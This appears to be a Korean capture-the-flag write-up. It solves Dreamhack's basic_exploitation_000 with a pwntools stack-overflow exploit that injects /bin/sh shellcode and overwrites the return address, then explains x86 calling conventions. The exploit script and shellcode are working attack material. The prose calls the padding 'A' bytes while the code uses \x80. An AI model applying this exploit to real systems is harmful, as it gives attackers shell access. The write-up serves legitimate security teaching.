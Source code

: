```yaml
---
layout: post
title: (Dreamhack) basic_exploitation_000
date: 2021-02-24 05:24:00
tags: Security CTF
---
```


## 문제 풀이

buf가 지역 변수로 0x80만큼 할당이 되어 있고, 이를 통해 ret 주소와 132바이트만큼 차이난다는 것을 알 수 있다. (buf크기 128바이트 +sfp 4바이트)

![image](https://user-images.githubusercontent.com/24788751/108988447-d182f980-76d7-11eb-90e2-92608229fa4f.png)

![image](https://user-images.githubusercontent.com/24788751/108988382-bdd79300-76d7-11eb-9245-e8f38c8e64c2.png)
IDA를 이용하여 살펴본 스택 공간


``` python
from pwn import *

proc = remote("host1.dreamhack.games", 15867)

proc.recvuntil("buf = (")
bufAddr = int(proc.recv(10), 16)
shellcode = "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80"
shellcode += "\x80" * 106
shellcode += str(p32(bufAddr))
proc.send(shellcode)

proc.interactive()
```

buf 공간에 26바이트의 쉘 코드와 아무 의미 없는 'A'를 106바이트만큼 채워주고 ret 주소에 buf 주소가 오버플로우될 수 있도록 하였다.

![image](https://user-images.githubusercontent.com/24788751/108981294-f1aeba80-76cf-11eb-8786-58c69bc1508a.png)

## 함수 호출 방식
함수를 호출하는 과정에서 매개변수, 리턴 주소 등을 어떻게 스택에 넣고 정리할 지 정하는 **함수 호출 규약**

![image](https://user-images.githubusercontent.com/24788751/108988472-d9429e00-76d7-11eb-9eaf-b73e7e5238fa.png)

sum(a, b)를 호출했다고 가정하자

### _cdecl
_cdecl은 c언어에서의 기본 함수 호출 규약이다. 스택을 사용하여 함수 외부에서 공간을 정리한다. (스택 정리는 caller가 함)
``` c
push b
push a
call sum()
add esp, 8
```

### _stdcall
_stdcall은 스택을 사용하여 함수 내부에서 공간을 정리한다. WINAPI에서 많이 사용한다. (스택 정리는 callee가 함)

``` c
push b
push a
call sum()
```
함수 리턴시 ret * 8 수행

### _fastcall
다른 호출 규약과 달리 레지스터를 이용한다. 레지스터를 이용하므로 속도가 빠르지만 경우에 따라 코드가 길어질 수 있다.
``` c
mov edx, b
mov ecx, a
call sum()
```

### _thiscall
c++에서 사용하는 호출규약으로 _stdcall과 비슷한 구조를 갖는다.
``` c
push b
push a
lea ecx, [ebx - 4]
call sum()
```
c++에서 자기 자신을 가리키는 this 포인터의 주소가 ecx 레지스터에 담기게 된다.